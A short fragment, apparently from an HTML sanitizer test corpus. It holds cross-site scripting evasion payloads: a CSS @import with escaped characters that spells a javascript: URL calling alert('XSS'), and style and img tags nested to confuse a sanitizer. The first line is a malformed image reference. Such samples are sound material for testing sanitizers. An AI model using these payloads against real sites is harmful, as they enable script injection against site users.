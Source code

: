 

<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>

<img src="x">
<style><img src="</style><img src="x">

